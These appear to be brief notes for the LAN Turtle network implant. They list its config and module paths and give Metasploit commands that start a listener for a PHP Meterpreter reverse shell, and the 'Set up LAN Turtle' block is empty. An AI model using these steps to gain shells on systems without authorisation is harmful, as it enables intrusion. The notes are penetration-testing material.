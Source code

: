 

Network config: 

'/etc/config/network'



Module locations:

'/etc/turtle/modules'

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener

'''
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter/reverse_tcp

set LPORT/LHOST

exploit -j
'''

Set up LAN Turtle

'''


'''
